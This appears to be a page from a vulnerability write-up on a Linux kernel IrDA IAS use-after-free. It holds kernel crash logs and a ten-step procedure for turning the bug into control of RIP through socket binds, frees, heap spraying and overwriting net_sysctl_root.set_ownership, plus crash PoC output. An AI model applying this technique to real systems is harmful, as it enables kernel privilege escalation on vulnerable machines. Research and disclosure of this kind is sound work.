 ```assembly
[ 3.900038] RSP: 002b:00007ffdb85d5f58 EFLAGS: 00000287 ORIG_RAX: 0000000000000031
[ 3.900038] RAX: ffffffffffffffda RBX: 00000000006b68d8 RCX: 000000000044a117
[ 3.900038] RDX: 0000000000000024 RSI: 00007ffdb85d5f90 RDI: 0000000000000006
[ 3.900038] RBP: 0000000000000070 R08: 000000000048eb5a R09: 000000000000000c
[ 3.900038] R10: 0000000000000000 R11: 0000000000000287 R12: 00000000006b6880
[ 3.900038] R13: 0000000000000065 R14: 00000000006b68d8 R15: 0000000000000000
[ 3.900038] Code: 8d 7b 10 ba 20 00 00 00 48 89 ce e8 42 bf af ff 49 63 c6 49 8d 04 c4 48 8b 50 10 48 85 d2 74 6e 48 89 13 48 8b 50 10 48 8b 52 08 <48> 89 1a 48 8b 50 10 48 8b 52 08 48 89 53 08 48 8b 50 10 48 89
[ 3.900038] RIP: hashbin_insert+0x99/0x150 RSP: ffffc90001697dc0
[ 3.900038] CR2: 00000000deadbeef
[ 3.900038] ---[ end trace 8a8070c4e016c09c ]---
[ 3.900038] Kernel panic - not syncing: Fatal exception
[ 3.900038] Kernel Offset: disabled
[ 3.900038] Rebooting in 1 seconds..
(gdb) x/i hashbin_insert+0x99
0xffffffff81847839 <hashbin_insert+153>: mov QWORD PTR [rdx],rbx
```

So Here the process of controlling the execution:
* Create 4 socket files via socket()
* bind socket 1 to 3 , this will allocate and insert objects into irias_objects
* bind 1 again , this will trigger the first bug
* insert socket 2 & 3 many times (~5)
* close socket 2, then 3 , this will free sockets and you should see the ias object of socket 3 freed but still queued in the list
* Spray the heap to fill the freed object with our payload, now we have control over obj->q.q_(next/prev)
* bind socket 4 , this is ‘what’ pointer to put in the controlled object (obj->q.q_prev)
* close socket 4 to free the last object
* Spray the heap again to control the object
* Trigger the overwritten pointer , and you’ll get RIP<br>
Here is a crash PoC showing that we’ve overwritten net_sysctl_root.set_ownership<br>
```assembly
./poc 0xffffffff81efeb60
[+] Freeing the first queued ias object
[+] Spray memory and take control of the old freed object
[+] Allocating new object to overwrite the targetted pointer
[+] Freeing object again
[ 8.641924] kernel tried to execute NX-protected page - exploit attempt? (uid: 0)
[ 8.642882] BUG: unable to handle kernel paging request at ffff88023623ad20
[ 8.642882] IP: 0xffff88023623ad20
[ 8.642882] PGD 212b067
[ 8.642882] PUD 212e067
[ 8.642882] PMD 80000002362001e3
[ 8.642882]
[ 8.642882] Oops: 0011 [#1] SMP
[ 8.642882] Modules linked in:
[ 8.642882] CPU: 0 PID: 1038 Comm: xx Not tainted 4.10.0-rc8+ #6
[ 8.642882] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Ubuntu-1.8.2-1ubuntu1 04/01/2014
[ 8.642882] task: ffff88023575de00 task.stack: ffffc90001434000
[ 8.642882] RIP: 0010:0xffff88023623ad20
[ 8.642882] RSP: 0018:ffffc90001437b60 EFLAGS: 00010282
[ 8.642882] RAX: ffff88023623ad20 RBX: ffff880236c2d148 RCX: ffff880236c2d150
[ 8.642882] RDX: ffff880236c2d14c RSI: ffff8802349a0a70 RDI: ffff8802349a0a00
[ 8.642882] RBP: ffffc90001437b88 R08: ffff88023fc1b840 R09: ffff880234b61230
[ 8.642882] R10: 2f2f2f2f2f2f2f2f R11: 0000000000000000 R12: ffff8802349a0a00
[ 8.642882] R13: ffff8802349a0a70 R14: ffffffff81efeb00 R15: 0000000000000004
[ 8.642882] FS: 00000000023d0880(0000) GS:ffff88023fc00000(0000) knlGS:0000000000000000
[ 8.642882] CS: 0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[ 8.642882] CR2: ffff88023623ad20 CR3: 0000000235e97000 CR4: 00000000000006f0
[ 8.642882] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[ 8.642882] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
```